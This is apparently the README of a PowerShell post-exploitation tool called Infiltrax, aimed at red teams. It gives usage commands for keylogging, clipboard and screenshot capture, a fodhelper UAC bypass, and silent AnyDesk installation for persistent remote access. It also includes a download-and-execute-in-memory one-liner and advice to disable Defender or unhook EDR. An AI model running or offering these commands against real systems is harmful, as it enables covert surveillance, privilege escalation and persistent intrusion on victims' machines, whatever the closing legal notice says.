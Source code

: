 # Infiltrax
Infiltrax is a post-exploitation reconnaissance tool for penetration testers and red teams, designed to capture screenshots, retrieve clipboard contents, log keystrokes, bypass UAC and install AnyDesk for persistent remote access.

![Infiltrax](https://raw.githubusercontent.com/alexdhital/Infiltrax/main/usage.gif)

## Features

- **Screenshot Capture**: Take screenshots of the entire screen and save them as PNG files.
- **Clipboard Retrieval**: Access the current clipboard contents.
- **Keystroke Logging**: Record keystrokes for a specified duration.
- **UAC Bypass**: Bypasses UAC via fodhelper.exe
- **AnyDesk Installation**: Install and configure AnyDesk with unattended access.

## Usage
1. **Execute directly into memory**
```powershell
C:\Users\Administrator\Desktop> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/alexdhital/Infiltrax/main/Infiltrax.ps1')
```
2. **Get Clipboard contents**
```powershell
C:\Users\Administrator\Desktop> Invoke-Clipboard
```
3. **Take desktop screenshot and save into certain location**
```powershell
C:\Users\Administrator\Desktop> Invoke-Screenshot -Path "C:\Windows\Tasks\"
```
4. **Capture user keystrokes and save in a file**
```powershell
C:\Users\Administrator\Desktop> Invoke-KeyStrokeCapture -DurationInSeconds 30 -OutputPath C:\Windows\Tasks\keystrokes.txt
```
5. **Bypass UAC to run any program in elevated context. Default program powershell.exe**

  This function is taken from https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692 all credit goes to netbiosX :). Spawnning cmd.exe or powersell.exe from script gets caught by behavioural detection 
  disable defender or unhook EDR first.
```powershell
C:\Users\Vlex\Desktop> Invoke-FodHelperBypass -program "calc.exe"
```
6. **Installs anydesk silently, sets up unattended access and gets remote id** (Requires Administrative Privilege)
```powershell
C:\Users\Administrator\Desktop> Invoke-AnyDeskInstall -InstallPath "C:\Users\Alex\AppData\Local\AnyDesk" -Password "Unattended123!" 
```
## Warning and Legal Notice
This tool is intended solely for use by penetration testers and red team professionals during authorized engagements during post exploitation. Do not use this tool for unauthorized access or illegal activities.
